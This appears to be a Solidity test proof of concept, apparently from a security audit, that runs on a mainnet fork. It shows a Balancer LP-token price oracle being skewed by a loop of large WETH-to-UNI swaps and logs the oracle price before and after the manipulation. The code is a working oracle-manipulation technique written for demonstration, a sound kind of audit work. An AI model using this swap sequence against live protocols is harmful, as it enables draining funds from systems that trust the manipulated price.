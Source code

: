 ```solidity
function testManip() public {
    address pool = 0x5Aa90c7362ea46b3cbFBD7F01EA5Ca69C98Fef1c; //UNI-ETH pool on mainnet
    uint UNI_price = 5.15*1e8; // UNI-USDC chainlink price
    uint ETH_price = 1800*1e8; // ETH-USDC chainlink price
    console.log("Mainnet block:", block.number);
    uint256[] memory prices = new uint256[](2);
    prices[0] = UNI_price;
    prices[1] = ETH_price;
    // direct LP price calculation
    bytes32 pool_id = IBalancer(pool).getPoolId();
    IVault balancer_vault = IBalancer(pool).getVault();
    (IERC20[] memory tokens, uint256[] memory balances, ) =
        balancer_vault.getPoolTokens(pool_id);
    uint totPoolUSDCvalue = UNI_price*balances[0]/1e18 + ETH_price*balances[1]/1e18;
    uint LPprice = totPoolUSDCvalue*(10**IBalancer(pool).decimals())/IBalancer(pool).totalSupply();
    console.log("LP expected price:", LPprice);
    // use Balancer Oracle to get LP price
    uint LPoraclePrice = BalancerOracle.get_lp_price(pool, prices, 0, true);
    console.log("LP oracle price before manipulation:", LPoraclePrice);
    // Swap 100_000 ETH on pool
    uint amount = 1e5*1e18;
    vm.deal(address(this), amount);
    IWETH9(address(tokens[1])).deposit{value:1e5*1e18}();
    IWETH9(address(tokens[1])).approve(address(balancer_vault), amount);
    // 1. Swap WETH for UNI
    FundManagement memory funds = FundManagement(
        {
            sender: address(this),
            fromInternalBalance: false,
            recipient: payable(address(this)),
            toInternalBalance: false
        }
    );
    bytes memory userData;
    SingleSwap memory singleSwap = SingleSwap(
        {
            poolId: pool_id,
            kind: SwapKind(0),
            assetIn: address(tokens[1]),
            assetOut: address(tokens[0]),
            amount: amount,
            userData: userData
        }
    );
    while (true) { // do multiple swaps because balancer limit swap amount to 30% of reserves
        (, balances, ) = balancer_vault.getPoolTokens(pool_id);
        amount = balances[1]*3/10; // maximum that can be swapped due to balancer limits
        if (IWETH9(address(tokens[1])).balanceOf(address(this)) < amount) break;
        singleSwap.amount = amount;
        IBalancerVault(address(balancer_vault)).swap(singleSwap,
                        funds,
                        0,
                        block.timestamp + 1);
    }
    LPoraclePrice = BalancerOracle.get_lp_price(pool, prices, 0, true);
    console.log("LP oracle price after manipulation:", LPoraclePrice);
}
```
